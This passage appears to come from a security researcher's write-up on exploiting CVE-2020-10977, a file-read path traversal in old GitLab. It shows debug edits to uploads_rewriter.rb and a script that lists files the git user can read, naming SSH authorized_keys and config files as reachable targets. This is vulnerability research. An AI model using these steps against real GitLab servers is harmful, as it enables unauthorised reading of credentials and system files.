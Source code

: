 As expected only `/tmp/passwd2` will be successfully processed by `with_link_in_tmp_dir` function.

To make sure that path traversal really works I will add a couple of debug statements to `uploads_rewriter.rb` and run scenario 1 and 3 live. 

```ruby
...
56:       def with_link_in_tmp_dir(file)
57:         File.write('/tmp/gitlab.log', "1. #{file}\n", mode: 'a')        # <== DEBUG
58:         dir = Dir.mktmpdir('UploadsRewriter', File.dirname(file))
59:         File.write('/tmp/gitlab.log', "2. #{dir}\n", mode: 'a')         # <== DEBUG
60:         # The filename matters to Carrierwave so we make sure to preserve it
61:         tmp_file = File.join(dir, File.basename(file))
62:         File.write('/tmp/gitlab.log', "3. #{tmp_file}\n", mode: 'a')    # <== DEBUG
63:         File.link(file, tmp_file)
64:         # Open the file to placate Carrierwave
65:         File.open(tmp_file) { |open_file| yield open_file }
66:       ensure
67:         FileUtils.rm_rf(dir)
68:       end
69:     end
70:   end
71: end

# Run "gitlab-ctl reconfigure && gitlab-ctl restart" for the changes to take affect
```

In the GIF below (clickable) I try to include `/etc/passwd` (which obviously fails), and then I successfully include `/tmp/passwd2`. Debug output is read from `/tmp/gitlab.log`.

[![gitlab-lfi-demo.gif](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/gitlab-lfi-demo.gif)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/gitlab-lfi-demo.gif)

## Locate All the git Accessible Files

Let's find all files that can potentially be read via CVE-2020-10977 excluding git repository files in `/var/opt/gitlab/git-data/repositories`. Run it as `git` user:

```bash
#!/usr/bin/env bash

for file in `find / -type f -readable -writable 2>/dev/null | grep -v -e proc -e repositories`; do
  dname=`dirname $file`
  owner=`stat -c'%U' $dname`
    if [ $owner = "git" ]; then
      echo $file
  fi
done

# /var/log/gitlab/gitlab-rails/production_json.log
# /var/log/gitlab/gitlab-rails/production.log
# /var/log/gitlab/gitlab-rails/application.log
# /var/log/gitlab/gitlab-shell/gitlab-shell.log
# /var/log/gitlab/unicorn/unicorn_stdout.log
# /var/log/gitlab/unicorn/unicorn_stderr.log
# /var/opt/gitlab/gitlab-monitor/gitlab-monitor.yml
# /var/opt/gitlab/gitlab-workhorse/config.toml
# /var/opt/gitlab/.ssh/authorized_keys
# /opt/gitlab/var/unicorn/unicorn.pid
```
